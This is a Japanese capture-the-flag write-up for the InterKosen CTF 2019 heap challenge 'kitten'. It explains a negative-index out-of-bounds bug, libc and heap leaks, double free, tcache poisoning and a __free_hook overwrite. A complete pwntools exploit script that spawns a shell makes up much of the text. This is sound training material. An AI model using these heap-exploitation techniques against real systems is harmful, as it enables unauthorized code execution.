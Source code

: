 ```yaml
---
tags: pwn
---
```



# InterKosen CTF - kitten

これまでに解いた問題: https://hackmd.io/@Xornet/BkemeSAhU

## 公式リポジトリ

<https://github.com/theoremoon/InterKosenCTF2019-challenges-public>

## Writeup

### Outline

いつものcreate+edit, show, deleteが出来るHeap問題
かと思いきやポインタの管理がかなり頑丈でDouble FreeやUAFは出来ないように見える
と思いきや管理している配列に負のインデックスを指定することが出来、しかもそこに入力することが出来るので実質任意アドレスに対してdelete, showが出来る。
と、いうわけでどこかのGOTからlibcリークし、更にどこかのチャンクのアドレスもリークしてからそこをDouble Freeしていつものtcache poisoningが出来る。

### Binary

```
$ checksec ./chall
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
PIE以外全部有効、ということは`__free_hook`書き換えとGOT経由のlibc leakと思われる。

コマンドの説明の前にグローバル変数を説明する。

- kittens: 猫の名前が格納されているポインタの配列[10]
- count: 猫の数の最大値, free時にデクリメント, show, delete時にこれを超えるインデックスは指定できない、つまりUAFもDouble Freeも出来ない, 最大が10
- name: 名前用のバッファ

これらの配置は次の通り

```
name[0x7f]: 0x602020 ~ 0x60209f
kittens[0x50]: 0x6020a0 ~ 0x6020ef
count: 0x60212c
```

`count`だけ離れたところにある。`kittens`の管理がかなり厳重で10個以上のポインタを持つことは出来ない。よって`count`をオーバーフローで書き換えて大きい値にしようとしても無理。
しかし逆に小さいインデックスへのチェックがされておらず、唯一と言っていいレベルの脆弱性がある。showやdeleteのインデックス指定で負数を指定すると`kittens[-i]`のようになり、これは`0x6020a0 - i * 8`に存在する値をポインタとして見ることになる。
ここで先程の配置を見直すとなんと`name`と`kittens`は隣接している。`name`はaddで書き込みされてから次の入力まではクリアされないのでここに何らかのアドレスを名前として入力し、置いておくことでそこへshowやdeleteを行うことが出来る。

実行出来るコマンドは次の通り
- add(find): mallocして編集、サイズ可変だが0x7fまでなのでUnsorted Binに送るのは難しい
- show(feed): 中身を表示
- delete(look for): free、kittens配列の該当箇所も0クリアされるのでDouble Free出来ない(正確にはcountに相当するインデックス部分と同じ値が書き込まれる)

### 任意アドレスのshowとdelete

次のように負数インデックスを利用することで任意アドレスの中身を見たりfreeすることが出来る。

1. add(x)

```
~~ name ~~
-16: x
-15: 
...
~~ kittens ~~
0: p_0 / *p_0 = x
```

2. show(-16)

上の図のように-16インデックスに対応する箇所が`name`の先頭なので`x`をアドレスとして見た時の中身が表示される

3. delete(-16)

showと同様のことがdeleteで起こる、つまり`free(*p_0) = free(x)`が発動する。

### libc leak

上記手順で任意アドレスのshowとleakが出来るようになった。というわけでまずは`x`に何らかの関数のGOTを設定することでlibc leakが出来る。アドレス解決が出来ているなら何でもいいので`puts`を選んだ

### Heap leak

libc leakが出来たので`__free_hook`を書き換えたい。いつものDouble Freeを狙いたいが、`delete(0)`を2回叩くようなDouble Freeは出来ない。
そこで`kittens[n] = kittens[-m]`(n, mは非負整数)となるようにしてから`delete(n), delete(-m)`を叩いてDouble Freeする。`n`に当たるインデックスは通常のdeleteでfree出来るが`-m`に当たるインデックスには事前に`kittens[n]`に格納されているポインタを知る必要がある。
というわけでHeap領域のアドレスをリークする。これは単にPIE無効で`kittens`のアドレスが分かっているのでそこを上記手順でshowすれば良い。
これで得たアドレスを直前に述べた手順で違うインデックスに仕込んでそれぞれfreeすればDouble Freeでtcacheが循環する。

### いつもの

Double Freeが出来たのでいつもどおり`__free_hook`を書き換える。今回は珍しくOne Gadgetを使った(`system("/bin/sh")`する際に`"/bin/sh"`が書き込まれているインデックスを特定するのが面倒だった)

## Code

```python
from pwn import remote, process, p64, u64, ELF


def select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


def add(s, data=b"junk"):
    select(s, b"1")
    s.recvuntil(b"Name: ")
    s.sendline(data)


def show(s, idx):
    select(s, b"2")
    s.recvuntil(b"> ")
    s.sendline(str(idx))
    suffix = b": Meow!\n"
    return s.recvuntil(suffix)[:-len(suffix)]


def delete(s, idx):
    select(s, b"3")
    s.recvuntil(b"> ")
    s.sendline(str(idx))


if __name__ == '__main__':

    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    """
    elf = ELF("./chall")
    puts_got = elf.got["puts"]
    kittens_top = elf.symbols["kittens"]
    print(hex(kittens_top))

    libc = ELF("./libc-2.27.so")
    puts_libc = libc.symbols["puts"]
    free_hook_libc = libc.symbols["__free_hook"]
    system_libc = libc.symbols["system"]
    one_gadget = [0x4f2c5, 0x4f322, 0x10a38c]

    s = remote("localhost", 9005)
    add(s, p64(puts_got))
    libc_base = u64(show(s, -16).ljust(8, b"\x00")) - puts_libc
    print(hex(libc_base))

    add(s, p64(kittens_top))
    heap_addr = u64(show(s, -16).ljust(8, b"\x00"))
    print(hex(heap_addr))

    add(s, p64(heap_addr))
    delete(s, 0)
    delete(s, -16)
    add(s, p64(libc_base + free_hook_libc))
    add(s)
    add(s, p64(libc_base + one_gadget[1]))

    delete(s, 0)

    s.interactive()

```

## Flag

Docker環境が配られていたのでそれでやりました
`KosenCTF{00b_4nd_tc4ch3_p01s0n1ng}`

## 公式Writeup

* https://hackmd.io/@theoldmoon0602/rJf0IS9mB

## 感想

任意アドレスをfree出来ることに気付いてtcacheに直接`__free_hook`のアドレスを送れるのでは?と思ったが冷静に考えるとチャンクのサイズヘッダを考慮していないので出来るわけがない。最初のスタック地点はここだった(すぐ気付いたので良かった)

最後のDouble Freeをするところで同じインデックス(-16)を2回freeしていたが1回目で`kittens[idx]`がクリアされてしまい、同じインデックスだとDouble Free出来ない罠に引っかかった。
ここで詰まったので当日解けた弊チームのWriteupをチーム内Wikiから探して読んだ以外は無事に自力でなんとかなったので良かったです(ノーヒントで解けてから言いたい)。

って思ったら普通に自分のメモに同一インデックスのDouble Freeは不可って書いてあった、過去の自分は自分で書いたメモぐらい見返して欲しい。